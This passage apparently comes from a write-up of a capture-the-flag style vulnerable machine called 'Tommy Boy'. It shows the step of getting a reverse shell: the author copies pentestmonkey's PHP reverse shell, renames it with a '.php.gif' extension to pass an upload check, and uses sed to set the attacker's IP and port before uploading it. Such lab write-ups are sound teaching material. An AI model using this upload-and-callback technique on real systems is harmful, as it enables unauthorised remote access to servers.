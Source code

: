 ![](/assets/images/tommyboy/screenshot-23.png)

**Getting a reverse shell**

I used a reverse shell php from pentestmonkey, changed the ip address for the ours and the port, then I uploaded it.

```console
root@kali:~$ cp /usr/share/webshells/php/php-reverse-shell.php z.php.gif
root@kali:~$ sed -i 's/127.0.0.1/192.168.179.1/;s/1234/443/' z.php.gif
```

![](/assets/images/tommyboy/screenshot-24.png)

![](/assets/images/tommyboy/screenshot-25.png)
